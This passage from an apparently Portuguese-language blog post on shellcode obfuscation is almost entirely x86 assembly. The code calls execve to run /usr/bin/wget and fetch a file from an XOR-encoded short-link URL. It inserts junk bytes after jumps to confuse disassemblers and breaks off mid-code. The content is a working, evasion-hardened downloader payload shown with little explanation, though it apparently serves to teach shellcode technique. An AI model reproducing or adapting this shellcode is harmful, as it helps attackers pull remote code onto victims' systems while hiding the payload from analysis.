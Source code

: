 
Esse último payload faz uso da syscall execve para instanciar o wget e baixar o
arquivo desejado.

Seguindo as mesmas técnicas já mencionadas, segue a versão modificada.

{% highlight asm %}
# int execve(const char *path, char *const argv[], char *const envp[]);
# execve(["/usr/bin/wget", 0], [["/usr/bin/wget", 0], "url", 0], 0

jmp $+3
db 0xe8
sub ebx, ebx
jz $+3
db 0x83
mul ebx
mov ebp, -11

jmp $+3
db 0xe8
push 0x72456541
sub esi, esi
jz $+3
db 0x83
pop esi
push esi
xor esi, 0x3e1f4a25
push esi

jmp $+3
db 0x33
push 0x672e7369
mov [esp+12], eax
mov ecx, esp


# /usr/bin/wget

push 0x74
jmp $+3
db 0xe3
push 0x6567772f
jmp $+3
db 0x83
push 0x6e69622f
jmp $+3
db 0x33
push 0x7273752f
lea ebx, [esp]

jmp $+3
db 0x83
push eax
push ecx                # argv address
push ebx                # file name address
mov ecx, esp            # pointer to the file name and argv

neg ebp

xchg eax, ebp
jmp $+3
db 0x83